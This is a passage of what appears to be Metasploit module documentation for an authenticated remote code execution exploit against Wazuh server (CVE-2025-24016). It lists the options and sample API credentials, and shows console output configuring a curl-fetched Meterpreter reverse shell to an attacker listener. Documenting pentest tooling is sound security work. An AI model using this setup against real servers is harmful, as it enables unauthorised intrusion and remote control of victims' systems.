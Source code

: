 you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings.

## Options
**API Credentials:**
`API_PWD` Wazuh API password (MyS3cr37P450r.*-)
`API_USER` Wazuh API user (wazuh-wui)

## Scenarios
### Wazuh server 4.8.2 on Docker Desktop
```msf
msf6 exploit(linux/http/wazuh_auth_rce_cve_2025_24016) > options

Module options (exploit/linux/http/wazuh_auth_rce_cve_2025_24016):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   API_PWD    MyS3cr37P450r.*-  yes       Wazuh API password
   API_USER   wazuh-wui         yes       Wazuh API user
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, http,
                                           socks5h
   RHOSTS     192.168.201.85    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      56000             yes       The target port (TCP)
   SSL        true              no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                 yes       Path to the wazuh manager
   VHOST                        no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FETCH_COMMAND   CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE    false            yes       Attempt to delete the binary after execution
   FETCH_FILELESS  none             yes       Attempt to run payload without touching disk by using anonymous handles, requires Linux ≥3.17 (for Python
                                               variant also Python ≥3.8 (Accepted: none, bash, python3.8+)
   FETCH_SRVHOST                    no        Local IP to use for serving payload
   FETCH_SRVPORT   8080             yes       Local port to use for serving payload
   FETCH_URIPATH                    no        Local URI to use for serving payload
   LHOST           192.168.201.10   yes       The listen address (an interface may be specified)
   LPORT           4444             yes       The listen port


   When FETCH_COMMAND is one of CURL,WGET:

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   FETCH_PIPE  false            yes       Host both the binary payload and the command so it can be piped directly to the shell.


   When FETCH_FILELESS is none:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      WqYFaNqq         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
```
